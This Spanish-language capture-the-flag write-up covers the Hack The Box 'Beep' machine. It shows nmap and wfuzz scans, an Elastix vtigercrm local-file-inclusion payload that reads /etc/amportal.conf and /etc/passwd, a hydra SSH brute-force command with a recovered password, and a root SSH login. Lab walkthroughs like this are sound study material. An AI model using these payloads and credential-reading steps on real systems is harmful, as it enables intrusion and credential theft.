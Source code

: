 ![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/beep.jpg)

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/allports.jpg)

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/elastix.jpg)

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/wfuzz.jpg)

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/lfi.jpg)

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
     
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/usuarios.jpg)

Sacamos el listado de usuarios y dejamos solo los que tengan bash

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash.jpg)
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash2.jpg)


lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.

    hydra 10.10.10.7 ssh -L user.txt -p jEhdIekWmdjE -f -vv
    
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/hydra.jpg)

### ROOT ###

*** 
Accemos con root por ssh

    ssh -o KexAlgorithms=diffie-hellman-group1-sha1 -o Ciphers=aes256-cbc root@10.10.10.7
    
 [](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/ssh.jpg)
 
conseguimos la flag de user.txt

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagUser.txt.jpg)

conseguimos la flag de root.txt

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagRoot.jpg)



